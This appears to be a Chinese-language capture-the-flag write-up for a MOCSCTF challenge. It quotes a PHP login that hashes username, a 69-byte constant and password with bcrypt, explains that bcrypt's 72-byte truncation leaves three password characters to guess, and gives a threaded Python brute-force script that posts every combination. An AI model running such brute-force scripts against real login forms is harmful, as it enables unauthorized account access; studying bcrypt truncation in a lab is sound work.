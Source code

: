 ```php
$usernameAdmin = 'admin';
$passwordAdmin = generate_uuid_v4();

$entropy = "My-password-is-super-secure-that-You'd-never-guess-it-Hia-hiahia";

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    $hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);

    if ($usernameAdmin === $username && password_verify($username . $entropy . $password, $hash)) {
        $_SESSION['logged_in'] = true;
    }
}
?>
```

这是题目给的php代码，可以注意到密码用的是`PASSWORD_BCRYPT`，这个方法用72长度的加密，题目中的`entropy`是69字节，那么3字节是可以爆破的，多线程爆破就行

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor

url = ""
combinations = string.ascii_lowercase + string.digits

password = []
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


def try_password(password_attempt):
    r = requests.post(url, data={"username": "admin", "password": password_attempt})
    if "MOCSCTF{" in r.text:
        return f"Found flag: {r.text}"
    else:
        return f"{password_attempt} is not right"


def start_threads():
    with ThreadPoolExecutor(max_workers=10) as executor:
        results = executor.map(try_password, password)

        for result in results:
            print(result)
            if "Found flag" in result:
                exit()


if __name__ == '__main__':
    start_threads()
```
